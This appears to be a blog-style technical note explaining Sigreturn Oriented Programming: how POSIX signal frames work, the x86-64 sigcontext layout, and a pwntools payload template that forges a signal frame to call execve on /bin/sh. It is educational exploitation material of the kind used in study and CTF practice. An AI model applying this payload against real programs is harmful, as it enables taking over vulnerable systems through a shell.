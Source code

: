 ```yaml
---
layout: post
title: Sigreturn Oriented Programming
description:
date: 2025-10-13
categories:
  - notes
  - srop
tags:
  - srop
---
```


# Sigreturn Oriented Programming. 

`SROP` (Sigreturn Oriented Programming) is binary exploitation technique that leverages the signal handling mechanisms in `POSIX` systems to gain control over CPU registers. This is achieved by crafting a fake signal frame on the stack and then invoking the `sigreturn` system call. 

## The signal handling mechanism 

`SROP` exploits the process used by `POSIX` systems to handle signals. This process works as follows: 
1. When a signal occurs, context switch is performed.
2. The context switch saves the current state of execution by pushing all CPU registers and additional data onto the stack.
3. Once the signal has been handled, the `sigreturn` system call is invoked, which restores the CPU register values from the data saved on the stack.

Here are the structures involved:

-  `struct sigcontext`
	- This structure is a component of the `sigframe`. It stores the values of the CPU registers and their flag.
	- The structure definition and layout depend on specific architecture and operating system. 

on `x86-64`, the structure contains:

```c
struct sigcontext {
    uint64_t r8, r9, r10, r11, r12, r13, r14, r15;
    uint64_t rdi, rsi, rbp, rbx, rdx, rax, rcx, rsp;
    uint64_t rip, eflags;
    uint16_t cs, gs, fs;
    uint64_t err, trapno, oldmask, cr2;
    void *fpstate;
    uint64_t reserved[8];
};
```

## Exploitation

`SROP` involves two main stages once you have control of the return address
1. Triggering the `sigreturn` system call.
2. Providing a fake signal frame.

Payload example

```python
# stage1 trigger the sigreturn syscall
stage1 = flat(
	cyclic(offset_to_rip), # padding to return addres
	pop_rax, # pop rax; ret 
	0xf, # sigreturn number in x64 or 0x77 for x86
	syscall, # syscall gadget
)
# stage to fake signal frame
# pwntools makes it easy to setup the signal frame
stage2 = SigreturnFrame()
stage2.rax = 59 # for execve
stage2.rdi = binsh # address of "/bin/sh"
stage2.rsi = 0
stage2.rdx = 0
stage2.rip = syscall # syscall gadget

payload = flat(
	stage1,
	stage2
)
```

The above payload will get you a shell. 
### When to use SROP

- When you have limited gadgets.
- Can control stack. (Buffer overflow)
- When you have `pop rax` and `syscall` gadgets
- Need to set up multiple registers


